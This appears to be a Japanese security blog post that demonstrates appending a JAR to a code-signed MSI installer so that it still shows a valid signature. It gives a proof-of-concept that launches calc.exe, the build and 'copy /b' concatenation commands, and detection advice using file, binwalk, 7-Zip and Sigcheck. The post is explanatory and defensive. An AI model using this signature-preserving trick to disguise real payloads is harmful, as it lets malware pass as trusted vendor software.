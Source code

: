 ```yaml
---
layout: post
title:  "malicious jar appended to msi"
date:   2019-01-28
permalink: /security/:title
categories: Security
tags: malware jar msi
excerpt: VirusTotal blogで2019.1.15に紹介されたマルウェア配信テクニックを実証します。
---
```


* content
{:toc}

# 初めに

このポストでは、コード署名済みmsiファイルに悪意あるJARを追加する経験を通じて、そのような手法で作成されたファイルを見極める方法を考察します。

2019年01月15日にVirusTotalブログに「悪意あるJARファイルをコード署名済みmsiファイルに追加する手法」の注意喚起が掲載されました。
コード署名とは信頼できるベンダーによって提供されたソフトウェアが改ざんされていない事を確認する手段の一つです。
コード署名が施されたexeファイルを改ざんすると署名は無効化されますが、msiファイルの末尾に悪意あるコードを追加した場合はその限りではありません。

この抜け穴は悪意あるJARファイルを実行する場面で有効です。
JARファイルはZIPフォーマットを採用しており、ファイル末尾のセントラルディレクトリを参照してアーカイブされたリソースを読み取ります。
つまり、ファイルの先頭がどのようなデータであろうと、末尾nバイトが正常なデータはJARとして機能します。

# 実行可能JARを作る

Windows calcを起動するだけのjavaプログラムを書きます。

```
public class Malware{
  public static void main(String[] args){
    try{
      Runtime.getRuntime().exec("cmd /c calc.exe");
    }catch(Exception e){
      e.printStackTrace();
    }
  }
}
```

エントリーポイントを指定するためにマニフェストを書きます。

```
Main-Class: Malware
```

コンパイルしてJARにまとめます。

```
> javac Malware.java
> jar cfm simple.jar mymanifest *.class
```

出来上がったsimple.jarをダブルクリックするとWindows calcが起動します。

# MSIに埋め込む

適当な署名済みMSIファイルを用意します。

![](/images/appendedmsi/capture01.png)

MSIファイルの後ろにsimple.jarを結合します。

```
> copy /b elasticsearch-6.5.4.msi + simple.jar attached.jar
```

attached.jarのプロパティから有効なデジタル署名を確認できますが、ダブルクリックするとWindows Calcが起動します。
正規のインストーラーに偽装した悪意あるJARを拡散するシナリオが想定できます。

<iframe width="560" height="315" src="https://www.youtube.com/embed/klDeYL5KzM4" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

JARファイルを少し書き換えれば、Windows Calcが起動した後で本来のMSIファイルの挙動に繋げて、悪意ある挙動をカムフラージュすることも出来そうです。

# 改ざんを見極める

JARを埋め込んだMSIにどのような特徴があるのか調べました。

- バイナリが違うので既知のシグネチャにはマッチしません
- ハッシュも変わります
- 元がMSIなのでマジックナンバーがPKではありません

  ![](/images/appendedmsi/capture02.png)

- ファイル種別はMSI Installerです

  ```
  root@user-VirtualBox:/tmp# file attached.jar
  attached.jar: Composite Document File V2 Document, Little Endian, Os: Windows, Version 6.2, MSI Installer
  ```

- x509証明書の後ろにZIPデータが続いています

  ```
  root@user-VirtualBox:/tmp# binwalk attached.jar

  DECIMAL       HEXADECIMAL     DESCRIPTION
  --------------------------------------------------------------------------------
  20480         0x5000          Microsoft Cabinet archive data, 104004344 bytes, 336 files
  1778894       0x1B24CE        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2428408       0x250DF8        Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  2582000       0x2765F0        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.SF
  2732443       0x29B19B        Zip archive data, at least v2.0 to extract, name: META-INF/BC1024KE.DSA
  ...(snip)...
  105941412     0x65089A4       XML document, version: "1.0"
  105947648     0x650A200       Microsoft Cabinet archive data, 3707320 bytes, 10 files
  109688426     0x689B66A       eCos RTOS string reference: "eCostInitializeFileCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeature"
  109688444     0x689B67C       eCos RTOS string reference: "eCostCostFinalizeInstallValidateInstallInitializeInstallAdminPackageInstallFinalizeExecuteActionPublishFeaturesPublishProductINS"
  109772948     0x68B0094       Certificate in DER format (x509 v3), header length: 4, sequence length: 1177
  109774129     0x68B0531       Certificate in DER format (x509 v3), header length: 4, sequence length: 1386
  109775519     0x68B0A9F       Certificate in DER format (x509 v3), header length: 4, sequence length: 1504
  109780992     0x68B2000       Zip archive data, at least v2.0 to extract, name: META-INF/
  109781053     0x68B203D       Zip archive data, at least v2.0 to extract, name: META-INF/MANIFEST.MF
  109781208     0x68B20D8       Zip archive data, at least v2.0 to extract, name: Malware.class
  109781808     0x68B2330       End of Zip archive
  ```

- アーカイブされたファイルを参照できます

  ```
  root@user-VirtualBox:/tmp# 7za L attached.jar

  7-Zip (A) [64] 9.20  Copyright (c) 1999-2010 Igor Pavlov  2010-11-18
  p7zip Version 9.20 (locale=C,Utf16=off,HugeFiles=on,1 CPU)

  Listing archive: attached.jar

  --
  Path = attached.jar
  Type = zip
  Physical Size = 108002936
  Offset = 1778894

     Date      Time    Attr         Size   Compressed  Name
  ------------------- ----- ------------ ------------  ------------------------
  2019-01-27 18:06:50 D....            0            2  META-INF
  2019-01-27 18:06:50 .....           90           89  META-INF/MANIFEST.MF
  2019-01-27 17:37:30 .....          535          357  Malware.class
  ------------------- ----- ------------ ------------  ------------------------
                                     625          448  2 files, 1 folders
  ```

# まとめ

悪意あるJARを署名済みMSIに埋め込むことは非常に簡単です。
そのようにして作成された悪意あるファイルは元のデジタル署名を引き継ぐため、一見しただけでは正常なファイルのように見えます。

幸いなことに、悪意あるJARファイルを見極めるのに役立ついくつかの観点があります。
ファイルを実行する前に少し立ち止まって、これに目を向けてください。

- ファイルのハッシュが公式サイトに掲載されている値と一致しているか
- ファイルのマジックナンバーと拡張子が一致しているか
- ファイルの末尾に不審なZIPデータが付いていないか

また、VirusTotalブログに記載されている通り、MS Sysinternal Sigcheckの最新版には今回の改ざんを検知する新たな機能が実装されています。VirusTotalもSigcheckを利用しており、今回のファイルに対してSigned but the filesize is invalid (the file is too large)という警告を上げてくれます。

# 参考URL

- [VirusTotal: Distribution of malicious JAR appended to MSI files signed by third parties](https://blog.virustotal.com/2019/01/distribution-of-malicious-jar-appended.html)
- [Wikipedia: ZIPファイルフォーマット](https://ja.wikipedia.org/wiki/ZIP_%28%E3%83%95%E3%82%A1%E3%82%A4%E3%83%AB%E3%83%95%E3%82%A9%E3%83%BC%E3%83%9E%E3%83%83%E3%83%88%29)
